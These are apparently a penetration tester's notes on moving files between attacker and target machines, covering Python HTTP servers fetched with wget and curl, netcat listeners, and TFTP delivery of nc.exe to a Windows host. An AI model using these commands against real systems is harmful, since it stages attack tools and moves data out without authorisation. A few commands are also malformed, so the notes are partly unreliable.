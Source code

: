 # File Transfers

This makes the entire folder where you executed the command on, available

    python -m SimpleHTTPServer 1234

wget or curl can be used on target to download the file

    wget 123.45.67.89:1234/file.txt
    curl -O http://123.45.67.89/file.txt



## Using Netcat

On attacker

    nc -lvp 1234 < file

On target

    nc 192.168.1.102 1234 > file

if wget/curl/nc are all not available, TFTP can be used

    tftp 192.168.0.101
    tftp> get somefile.txt

or

    tftp 192.168.1.254 <<< "get file.php file.php"



Source: https://chryzsh.gitbooks.io/pentestbook/transfering_files.html

Inside also includes ssh access with keypair



~~~bash
python -m SimpleHTTPServer 80
~~~



Getting file

~~~bash
wget x.x.x.x:1234/filename

curl x.x.x.x:1234/filename
~~~



## Netcat

Listen

~~~bash
nc -nlvp 1234 > file.txt
~~~



Send

~~~bash
nc -np 1234 < file.txt
~~~



If file is too big

~~~bash
cat bigassfile.txt | nc -np x.x.x.x 1234
~~~



---

WIP

---

TFTP
mkdir /tftp
atftpd –daemon –port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
EX. FROM WINDOWS HOST:
C:\Users\Offsec>tftp -i $ip get nc.exe

~~~

~~~